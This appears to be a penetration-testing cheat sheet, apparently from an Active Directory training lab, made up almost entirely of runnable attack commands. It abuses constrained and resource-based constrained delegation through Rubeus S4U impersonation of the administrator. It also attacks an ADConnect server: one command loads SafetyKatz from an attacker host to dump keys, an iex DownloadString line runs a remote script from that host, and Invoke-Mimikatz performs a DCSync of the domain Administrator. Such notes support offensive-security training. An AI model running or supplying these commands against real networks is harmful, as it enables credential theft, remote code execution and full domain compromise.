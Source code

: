 ### Constrained delegation

```Powershell
Get-DomainUser -TrustedToAuth

Get-DomainUser -Identity <user> -Properties samaccountname,msds-allowedtodelegateto
```

example:
- msdsspn: `CIFS/<server>`
- altservice: `HTTP`
```Powershell
Rubeus.exe s4u /user:<user> /aes256:<hash> /impersonateuser:administrator /msdsspn:xxx /altservice:yyy /domain:<domain> /ptt
```

### Resource-base constrained delegation (RBCD)

Requirement: GenericWrite/GenericAll DACL on object

1. Import AD module
2. Set `PrincipalAllowedToDelegateToAccount` on server
```Powershell
Set-ADComputer -Identity <server> -PrincipalAllowedToDelegateToAccount '<user>' -Verbose
```
3. Get studentuser15's System user hash (SID=S-1-5-18)
4. Use Rubeus to do S4U for `http`
In new admin prompt
```Powershell
Rubeus.exe s4u /user:<system_user>$ /aes256:<system_user_hash> /msdsspn:http/<server> /impersonateuser:administrator /ptt
```
5. `klist` to check ticket
6. winrs

### ADConnect

```Powershell
Get-ADUser -Filter "samAccountName -Like 'MSOL_*'" -Server techcorp.local  -Properties * | select SamAccountName,description | fl

xxx
```

On server with ADConnect
```Powershell
Loader.exe -path http://<attacker>/SafetyKatz.exe "sekurlsa:ekeys" "exit"
```

Run Invisi-shell on ADConnect server
```Powershell
iex (New-Object Net.WebClient).DownloadString('http://<attacker>/adconnect.ps1')
```

Locally
```Powershell
runas /user:<root_domain>\MSOL_xxxxxx /netonly cmd

# run Invisi-shell

. .\Invoke-Mimikatz.ps1

Invoke-Mimikatz -Command '"lsadump::dcsync /user:<root_domain>\Administrator /domain:<root_domain>"'
```
